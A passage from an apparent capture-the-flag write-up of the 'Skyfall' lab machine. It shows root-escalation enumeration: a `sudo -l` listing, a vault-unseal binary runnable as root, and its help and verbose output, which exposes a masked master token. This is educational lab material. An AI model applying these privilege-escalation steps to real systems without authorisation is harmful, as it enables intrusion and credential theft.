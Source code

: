 
## [](#step3-crafting-the-attack)Step 3 - System enumeration

Root was super simple. First, we run `sudo -l` and check the following:

```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

Let's run this binary as root and see what happens:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml
[>] Checking seal status
[+] Vault sealed: false
```

Note that nothing happened. The `sudo -l` tells us that we can also use `-v -h -d` flags, so let's try `-h` first:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message
```

So we can run verbose and debug mode. Let's try them out, first with  verbose:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```
